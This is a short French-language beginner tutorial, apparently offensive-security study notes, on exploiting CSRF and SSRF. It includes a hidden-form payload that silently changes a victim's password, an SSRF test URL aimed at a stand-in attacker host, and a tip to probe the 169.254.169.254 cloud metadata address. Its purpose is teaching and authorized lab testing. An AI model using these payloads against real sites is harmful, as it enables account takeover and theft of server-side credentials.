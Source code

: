 # CSRF & SSRF (Cross-Site Request Forgery & Server-Side Request Forgery)

## Objectif
Comprendre et exploiter deux types de failles : CSRF (forcer un utilisateur à exécuter une action) et SSRF (forcer le serveur à faire une requête).

---

## Commandes essentielles et explications

### 1. CSRF (Cross-Site Request Forgery)
- Exemple de payload HTML :
```
<form action="http://target.com/change-password" method="POST">
  <input type="hidden" name="password" value="hacked" />
  <input type="submit" value="Submit" />
</form>
```
- **À quoi ça sert ?** Si un utilisateur connecté visite cette page, son mot de passe sera changé à son insu.
- **Astuce débutant** : Tester sur des actions sensibles (changement de mail, suppression de compte, etc.).

### 2. SSRF (Server-Side Request Forgery)
- Exemple de payload dans un paramètre d’URL :
```
http://target.com/page.php?url=http://attacker.com
```
- **À quoi ça sert ?** Si le serveur fait une requête vers l’URL fournie, il est vulnérable à la SSRF.
- **Astuce** : Tester avec des IP internes (127.0.0.1, 169.254.169.254 pour AWS metadata).

### 3. Utilisation d’outils automatisés
- Pour CSRF : Utiliser Burp Suite pour générer des PoC CSRF.
- Pour SSRF : Utiliser ffuf ou wfuzz pour tester des URLs internes.

---

## Conseils pour débutants
- Toujours tester d’abord en manuel, puis automatiser avec des outils.
- Ne pas négliger les protections (tokens CSRF, filtrage d’URL côté serveur).
- Tester sur des environnements de lab, jamais en production sans autorisation.
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - CSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF)
- [PayloadsAllTheThings - SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SSRF)
- [OWASP CSRF](https://owasp.org/www-community/attacks/csrf)
- [OWASP SSRF](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery) 